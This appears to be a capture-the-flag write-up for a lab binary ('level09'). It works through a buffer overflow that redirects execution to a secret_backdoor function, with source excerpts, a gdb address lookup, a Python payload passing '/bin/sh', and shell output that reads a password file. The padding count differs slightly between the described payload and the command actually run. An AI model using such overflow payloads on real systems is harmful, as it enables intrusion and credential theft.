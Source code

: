In that program we have the `handle_msg` function, which have 3 variables:
```c
void handle_msg(void)
{
	char c;				// rbp-12
	char ptr[40];		// rbp-52
	char username[140]; // rbp-192
```
We can override their return address after 200 bytes of padding
(192 bytes for the variables, 8 for RBP).

We first fill the `username` buffer with the user `username`, and then with the message
```c
set_username(username);
set_msg(username);
```

On the `set_username` function, we can see that we are writing 40 bytes from the 140th one:
```c
while (res <= 40 && buff[res] != '\0')
{
	*(username + 140 + res) = buff[res];
	res++;
}
```

And then, in the `set_msg` function, we are copying the buff with the number stored in `message[180]` (that we control)
amount of bytes to the message pointer. This will help us to copy again up to 255 characters
and makes the variable overflow.
```c
void set_msg(char *message)
{					 // rbp-1032
	char buff[1024]; // rbp-1024

	bzero(buff, 128);
	puts(">: Msg @Unix-Dude");
	printf(">>: ");
	fgets(buff, 1024, stdin);
	strncpy(message, buff, message[180]);
}
```

Finally, we have a `secret_backdoor` function that we need to call to execute whatever the command is.

Now, we need the address of the `secret_backdoor` function.

```
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

Let's craft a payload. First, we need 39 letters of padding,
and one to set the good size we want in out final buffer.

Then, we need our buffer that'll be filled with a padding (200 bytes),
and thee return address (8 bytes).

We need to makes the `fgets` stop reading the `stdin`
by putting a `\n` to the payload.

And finally, for the `secret_backdoor` function, we need to
pass the `/bin/sh` string.

Okay, so for all of that, we need 208 bytes, so the 40th character will be `208`.

Payload:
```py
print("A" * 39 + chr(208) + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n/bin/sh")
```

The address had only 6 characters, so I added 2 `\x00` of padding.

```sh
level09@OverRide:~$ (python -c 'print("A" * 40 + chr(208) + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n/bin/sh")
'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```